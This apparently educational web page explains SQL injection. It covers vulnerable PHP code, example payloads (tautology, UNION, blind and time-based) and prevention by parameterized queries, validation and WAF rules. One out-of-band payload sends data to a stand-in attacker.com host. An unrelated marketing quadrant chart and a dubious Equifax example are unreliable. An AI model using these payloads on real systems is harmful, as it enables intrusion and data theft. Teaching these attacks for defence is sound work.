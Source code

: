 +++
title = "SQL Injection"
date = 2024-01-13
description = "SQL injection is a code injection technique that might destroy your database. It is one of the most common web hacking techniques."
tags = ["security", "sql", "injection", "database", "attack"]
+++

# SQL Injection

{% mermaid() %}
quadrantChart
    title Reach and engagement of campaigns
    x-axis Low Reach --> High Reach
    y-axis Low Engagement --> High Engagement
    quadrant-1 We should expand
    quadrant-2 Need to promote
    quadrant-3 Re-evaluate
    quadrant-4 May be improved
    Campaign A: [0.3, 0.6]
    Campaign B: [0.45, 0.23]
    Campaign C: [0.57, 0.69]
    Campaign D: [0.78, 0.34]
    Campaign E: [0.40, 0.34]
    Campaign F: [0.35, 0.78]
{% end %}

SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.

## How SQL Injection Works

SQL injection occurs when an application incorporates user input into SQL queries without proper validation or parameterization.

### Example of Vulnerable Code

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
```

### Attack Example

An attacker could input:
```
admin' OR '1'='1
```

Resulting in:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

## Types of SQL Injection

### In-band SQL Injection

Direct communication channel for attack and result gathering:

#### Error-based SQL Injection
Exploits database error messages to gather information:

```sql
' AND (SELECT COUNT(*) FROM information_schema.tables) --
```

#### Union-based SQL Injection
Uses UNION SQL operator to combine results:

```sql
' UNION SELECT username, password FROM admin_users --
```

### Inferential SQL Injection (Blind)

No direct data transfer, attacker reconstructs information:

#### Boolean-based Blind
Relies on TRUE/FALSE responses:

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

#### Time-based Blind
Uses database delays to infer information:

```sql
'; IF (1=1) WAITFOR DELAY '00:00:10' --
```

### Out-of-band SQL Injection

Uses different communication channels (DNS, HTTP):

```sql
'; EXEC master.dbo.xp_dirtree '\\attacker.com\share' --
```

## Detection Techniques

### Manual Testing

Common test payloads:

```
'
"
`
')
")
`)
' OR 1=1 --
" OR 1=1 --
```

### Automated Scanning

Tools for SQL injection detection:

- **SQLMap** - Automatic SQL injection exploitation
- **Burp Suite** - Web application security scanner
- **OWASP ZAP** - Web application security scanner
- **Nessus** - Vulnerability scanner

## Prevention Methods

### Parameterized Queries (Prepared Statements)

The most effective defense:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
pstmt.setString(2, password);
```

### Stored Procedures

When implemented correctly:

```sql
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users
    WHERE Username = @Username AND Password = @Password
END
```

### Input Validation

Whitelist validation:

```python
import re

def validate_username(username):
    pattern = re.compile("^[a-zA-Z0-9_]{3,20}$")
    return pattern.match(username) is not None
```

### Escaping User Input

Last resort method:

```php
$username = mysql_real_escape_string($_POST['username']);
```

### Least Privilege Principle

Database user permissions:

- Don't use administrative accounts for application connections
- Grant only necessary permissions
- Use separate accounts for different application components
- Regularly audit database permissions

## Advanced Prevention

### Web Application Firewalls (WAF)

Filter malicious requests:

```nginx
# ModSecurity rule example
SecRule ARGS "@detectSQLi" \
    "id:1001,\
    phase:2,\
    block,\
    msg:'SQL Injection Attack Detected',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"
```

### Database Activity Monitoring

Monitor suspicious database activities:

- Unusual query patterns
- Access to sensitive tables
- Failed authentication attempts
- Privilege escalation attempts

## Testing and Verification

### Code Review Checklist

- [ ] All SQL queries use parameterized statements
- [ ] Input validation is implemented
- [ ] Database errors are handled properly
- [ ] Least privilege principle is applied
- [ ] Logging and monitoring are in place

### Penetration Testing

Regular security assessments:

1. **Black box testing** - No knowledge of application internals
2. **White box testing** - Full access to source code and documentation
3. **Gray box testing** - Limited knowledge of application internals

## Real-world Examples

### Notable SQL Injection Attacks

- **2008 - Heartland Payment Systems**: 134 million credit cards compromised
- **2011 - Sony Pictures**: Personal information of 1 million users exposed
- **2012 - Yahoo**: 450,000 passwords stolen from Yahoo Voices
- **2017 - Equifax**: 147 million consumers affected (initially reported as Apache Struts vulnerability)

## Conclusion

SQL injection remains one of the most critical web application vulnerabilities. Prevention requires a multi-layered approach combining secure coding practices, proper input validation, and ongoing security testing.
